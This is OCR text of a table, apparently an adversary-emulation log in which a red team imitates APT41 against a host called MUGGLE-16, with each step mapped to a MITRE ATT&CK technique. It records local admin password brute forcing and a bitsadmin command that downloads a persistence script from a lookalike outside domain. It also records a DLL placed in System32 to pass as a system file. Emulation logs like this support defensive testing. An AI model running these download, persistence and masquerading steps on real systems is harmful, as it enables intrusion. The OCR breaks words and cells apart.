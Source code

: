 12/7/2022 
0657-0710 
APT41 
MUGGLE-
16 
Brute Local 
Admin 
Credentials 
Brute Force: 
Password 
Cracking 
T1110. 002 
Simulated via Cobalt Strike 
SpawnAs 
N/A 
14 
12/7/2022 
0710 
APT41 
MUGGLE-
16 
Escalate to 
Local 
Admin 
Valid Accounts: 
Local 
Accounts 
T1078. 003 
Credentials from bruting 
Administrator 
15 
12/7/2022 
0711 
APT41 
MUGGLE-
16 
Download 
persistence install scripts 
BITS Jobs 
T1197 
cmd /c bitsadmin 
/transfer bbbb http://macf eelabs.com/ test/install. bat 
C:\Users\P ublic\install
.bat 
C:\Users\Public\ins tall.bat, 
C:\Users\Public\sto resyncsvc.dll 
16 
12/7/2022 
0712 
APT41 
MUGGLE-
16 
Move agent 
script 
Masquerading
: Match 
Legitimate 
Name or 
Location 
T1036. 005 
Moved to 
System32 
C:\Windows\Syste m32\storesyncsvc.
dll 